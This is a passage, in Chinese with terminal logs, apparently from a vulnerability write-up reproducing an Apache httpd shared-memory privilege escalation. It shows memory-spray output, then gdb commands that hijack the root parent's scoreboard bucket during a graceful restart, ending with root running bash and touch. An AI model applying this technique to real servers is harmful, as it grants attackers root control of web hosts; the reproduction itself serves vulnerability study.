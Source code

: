     Spraying the shared memory start

    evil_shm_start:0x7f1f62a32278
    evil_shm_end:0x7f1f62a4a000
    evil_shm_size:17d88
    evil_shm_mid_addr:0x7f1f62a3e140
    bucket:fe3ec349aa5

此时，共享内存中，已经被我们的恶意数据给填充。

##### 为通过gdb模拟修改bucket指向我们的恶意结构做准备

    [root@bogon john]# ps -aux | grep httpd
    root      19895  0.0  0.2 285296 10652 ?        Ss   14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19896  0.0  0.2 287512  9348 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19897  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19898  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19899  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    www       19900  0.0  0.1 287512  7616 ?        S    14:27   0:00 /usr/local/httpd//bin/httpd -k start
    root      20112  0.0  0.0 112708   980 pts/2    R+   14:30   0:00 grep --color=auto httpd
    [root@bogon john]# gdb attach 19895
    (gdb) break child_main
    Breakpoint 1 at 0x46c000: file prefork.c, line 380.
    (gdb) set follow-fork-mode child
    (gdb) c

##### 执行apachectl graceful，使其优雅重启

    [root@bogon john]# apachectl graceful
    [root@bogon john]# 

##### 修改my\_bucket

我们将my\_bucket，设置为0x7f1f62a3e140，该地址是执行恶意PHP代码时，输出的evil\_shm\_mid\_addr

    Continuing.

    Program received signal SIGUSR1, User defined signal 1.
    0x00007f1f612bdf53 in __select_nocancel () from /lib64/libc.so.6
    (gdb) c
    Continuing.
    [New process 20155]
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib64/libthread_db.so.1".
    [Switching to Thread 0x7f1f62ae9780 (LWP 20155)]

    Breakpoint 1, child_main (child_num_arg=child_num_arg@entry=0, child_bucket=child_bucket@entry=0) at prefork.c:380
    380    {
    (gdb) set my_bucket = 0x7f1f62a3e140
    (gdb) c
    Continuing.
    [New process 20177]
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib64/libthread_db.so.1".
    process 20177 is executing new program: /usr/bin/bash
    Error in re-setting breakpoint 1: Function "child_main" not defined.
    process 20177 is executing new program: /usr/bin/touch
    Missing separate debuginfos, use: debuginfo-install bash-4.2.46-31.el7.x86_64
    [Inferior 3 (process 20177) exited normally]
    Missing separate debuginfos, use: debuginfo-install coreutils-8.22-23.el7.x86_64
    (gdb) 